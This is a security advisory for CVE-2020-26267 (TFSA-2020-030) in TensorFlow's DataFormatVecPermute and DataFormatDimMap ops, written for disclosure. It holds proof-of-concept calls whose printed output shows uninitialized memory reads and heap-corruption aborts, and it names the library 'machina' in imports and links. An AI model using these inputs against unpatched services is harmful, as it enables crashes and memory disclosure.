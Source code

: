 ## TFSA-2020-030: Lack of validation in data format attributes

### CVE Number
CVE-2020-26267

### Impact
The `tf.raw_ops.DataFormatVecPermute` API does not validate the `src_format` and
`dst_format` attributes. [The
code](https://github.com/machina/machina/blob/304b96815324e6a73d046df10df6626d63ac12ad/machina/core/kernels/data_format_ops.cc)
assumes that these two arguments define a permutation of `NHWC`.

However, these assumptions are not checked and this can result in uninitialized
memory accesses, read outside of bounds and even crashes.

```python
>>> import machina as tf
>>> tf.raw_ops.DataFormatVecPermute(x=[1,4], src_format='1234', dst_format='1234')
<tf.Tensor: shape=(2,), dtype=int32, numpy=array([4, 757100143], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,4], src_format='HHHH', dst_format='WWWW')
<tf.Tensor: shape=(2,), dtype=int32, numpy=array([4, 32701], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,4], src_format='H', dst_format='W')
<tf.Tensor: shape=(2,), dtype=int32, numpy=array([4, 32701], dtype=int32)>
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4], 
                                    src_format='1234', dst_format='1253')
<tf.Tensor: shape=(4,), dtype=int32, numpy=array([4, 2, 939037184, 3], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4],
                                    src_format='1234', dst_format='1223')
<tf.Tensor: shape=(4,), dtype=int32, numpy=array([4, 32701, 2, 3], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4],
                                    src_format='1224', dst_format='1423')
<tf.Tensor: shape=(4,), dtype=int32, numpy=array([1, 4, 3, 32701], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4], src_format='1234', dst_format='432')
<tf.Tensor: shape=(4,), dtype=int32, numpy=array([4, 3, 2, 32701], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4],
                                    src_format='12345678', dst_format='87654321')
munmap_chunk(): invalid pointer
Aborted
...
>>> tf.raw_ops.DataFormatVecPermute(x=[[1,5],[2,6],[3,7],[4,8]],           
                                    src_format='12345678', dst_format='87654321')
<tf.Tensor: shape=(4, 2), dtype=int32, numpy=
array([[71364624,        0],
       [71365824,        0],
       [     560,        0],
       [      48,        0]], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[[1,5],[2,6],[3,7],[4,8]], 
                                    src_format='12345678', dst_format='87654321')
free(): invalid next size (fast)
Aborted
```

A similar issue occurs in `tf.raw_ops.DataFormatDimMap`, for the same reasons:

```python
>>> tf.raw_ops.DataFormatDimMap(x=[[1,5],[2,6],[3,7],[4,8]], src_format='1234',
>>> dst_format='8765')
<tf.Tensor: shape=(4, 2), dtype=int32, numpy=
array([[1954047348, 1954047348],
       [1852793646, 1852793646],
       [1954047348, 1954047348],
       [1852793632, 1852793632]], dtype=int32)>
```

### Patches

We have patched the issue in GitHub commit
[ebc70b7a592420d3d2f359e4b1694c236b82c7ae](https://github.com/machina/machina/commit/ebc70b7a592420d3d2f359e4b1694c236b82c7ae)
and will release TensorFlow 2.4.0 containing the patch. TensorFlow nightly
packages after this commit will also have the issue resolved.

Since this issue also impacts TF versions before 2.4, we will patch all releases
between 1.15 and 2.3 inclusive.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
